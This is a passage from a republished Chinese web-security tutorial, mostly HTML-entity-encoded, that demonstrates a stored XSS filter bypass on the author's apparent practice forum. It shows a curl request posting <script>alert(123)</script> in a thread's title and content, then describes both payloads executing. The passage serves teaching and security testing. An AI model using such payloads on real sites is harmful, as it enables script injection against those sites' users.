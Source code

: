 -H &apos;Origin: http://permeate.songboy.net&apos; -H &apos;Upgrade-Insecure-Requests: 1&apos; -H &apos;Content-Type: application/x-www-form-urlencoded&apos; -H &apos;User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36&apos; -H &apos;Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8&apos; -H &apos;Referer: http://permeate.songboy.net/home/fatie.php?bk=6&apos; -H &apos;Accept-Encoding: gzip, deflate&apos; -H &apos;Accept-Language: zh-CN,zh;q=0.9,en;q=0.8&apos; -H &apos;Cookie: __cfduid=defc970ef7081e30aedd761da5762b1891532003579; UM_distinctid=1655a61a23343c-03f0904540a333-34657908-1fa400-1655a61a234323; PHPSESSID=rufhm0741qfv55cpfnc80k1g4l&apos; --data &apos;csrf_token=3908&amp;bk=6&amp;title=222%3Cscript+%3Ealert%28123%29%3C%2Fscript%3E&amp;content=222%3Cscript+%3Ealert%28123%29%3C%2Fscript%3E&apos; --compressed</code></pre><p>&#x66FF;&#x6362;&#x5B8C;&#x6210;&#x4E4B;&#x540E;&#xFF0C;&#x7B14;&#x8005;&#x5C06;&#x6B64;&#x5185;&#x5BB9;&#x590D;&#x5236;&#x5230;&#x7EC8;&#x7AEF;&#x5F53;&#x4E2D;&#xFF08;&#x5982;&#x679C;&#x8BFB;&#x8005;&#x7528;&#x7684;&#x662F;windows&#x64CD;&#x4F5C;&#x7CFB;&#x7EDF;&#xFF0C;&#x53EF;&#x4EE5;&#x4E0B;&#x8F7D;&#x4E00;&#x4E2A;cmder&#xFF09;&#xFF0C;&#x7136;&#x540E;&#x6309;&#x4E0B;&#x56DE;&#x8F66;&#x952E;&#xFF0C;&#x7ED3;&#x679C;&#x5982;&#x4E0B;&#x56FE;</p><p><span class="img-wrap"><img data-src="/img/remote/1460000016095220?w=963&amp;h=282" src="https://static.alili.tech/img/remote/1460000016095220?w=963&amp;h=282" alt="image" title="image"></span></p><h3>5.5 &#x7ED3;&#x679C;&#x5206;&#x6790;</h3><p>&#x5728;&#x8FD4;&#x56DE;&#x7ED3;&#x679C;&#x5F53;&#x4E2D;&#x53EF;&#x4EE5;&#x770B;&#x5230;&#x63D0;&#x793A;&#x53D1;&#x5E16;&#x6210;&#x529F;&#xFF0C;&#x6B64;&#x65F6;&#x5C31;&#x7B14;&#x8005;&#x5DF2;&#x7ECF;&#x6210;&#x529F;&#x53D1;&#x5E03;&#x4E86;&#x4E00;&#x4E2A;&#x65B0;&#x5E16;&#x5B50;&#xFF0C;&#x56DE;&#x5230;&#x5E16;&#x5B50;&#x5217;&#x8868;&#x5F53;&#x4E2D;&#x770B;&#x5230;&#x6709;&#x4E09;&#x6761;&#x5E16;&#x5B50;&#xFF0C;&#x5728;&#x6700;&#x540E;&#x9762;&#x7684;&#x5E16;&#x5B50;&#x5219;&#x662F;&#x7B14;&#x8005;&#x65B0;&#x53D1;&#x5E03;&#x7684;&#xFF0C;&#x5982;&#x4E0B;&#x56FE;</p><p><span class="img-wrap"><img data-src="/img/remote/1460000016095221?w=897&amp;h=206" src="https://static.alili.tech/img/remote/1460000016095221?w=897&amp;h=206" alt="image" title="image"></span></p><p>&#x6253;&#x5F00;&#x8BE6;&#x60C5;&#x9875;&#xFF0C;&#x7B14;&#x8005;&#x88AB;&#x5F39;&#x4E86;&#x4E24;&#x6B21;&#x63D0;&#x793A;&#x6846;&#xFF0C;&#x8BF4;&#x660E;&#x6807;&#x9898;&#x548C;&#x5185;&#x5BB9;&#x5F53;&#x4E2D;&#x7684;payload&#x90FD;&#x88AB;&#x89E6;&#x53D1;,&#x5E76;&#x4E14;&#x5728;&#x63A7;&#x5236;&#x53F0;&#x5F53;&#x4E2D;&#x4E5F;&#x53EF;&#x4EE5;&#x770B;&#x5230;<code>script</code>&#x53D8;&#x6210;&#x4E86;DOM&#x8282;&#x70B9;&#xFF0C;&#x800C;&#x4E0D;&#x662F;&#x6587;&#x672C;&#x5C55;&#x73B0;&#x51FA;&#x6765;&#xFF0C;&#x5982;&#x4E0B;&#x56FE;&#x6240;&#x793A;</p><p><span class="img-wrap"><img data-src="/img/remote/1460000016095222?w=1347&amp;h=448" src="https://static.alili.tech/img/remote/1460000016095222?w=1347&amp;h=448" alt="image" title="image"></span></p><p>&#x770B;&#x5230;&#x6B64;&#x5904;&#x8BF4;&#x660E;&#x7B14;&#x8005;&#x5DF2;&#x7ECF;&#x6210;&#x529F;&#x7ED5;&#x8FC7;&#x524D;&#x7AEF;XSS&#x8FC7;&#x6EE4;&#x5668;&#xFF0C;&#x665A;&#x4E00;&#x4E9B;&#x5728;&#x53D1;&#x8868;&#x4E00;&#x7BC7;&#x5DE5;&#x5177;&#x76D8;&#xFF0C;&#x548C;&#x9632;&#x5FA1;&#x7BC7;&#xFF0C;&#x5927;&#x5BB6;&#x6709;&#x5174;&#x8DA3;&#x4E5F;&#x53EF;&#x4EE5;&#x652F;&#x6301;&#x4E00;&#x4E0B;&#x7B14;&#x8005;&#x7684;&#x89C6;&#x9891;&#x6559;&#x7A0B;&#xFF0C;URL&#x5730;&#x5740;&#x5982;&#x4E0B;</p><pre><code>https://coding.imooc.com/class/242.html</code></pre><p>Thanks&#x266A;(&#xFF65;&#x3C9;&#xFF65;)&#xFF89;</p><hr><p>&#x4F5C;&#x8005;:&#x6C64;&#x9752;&#x677E;</p><p>&#x5FAE;&#x4FE1;:songboy8888</p><p>&#x65E5;&#x671F;:2018-08-21</p>
{{< /raw >}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，

本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。 

原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
快速找出网站中可能存在的XSS漏洞实践(一)

## 原文链接
[https://segmentfault.com/a/1190000016095198](https://segmentfault.com/a/1190000016095198)

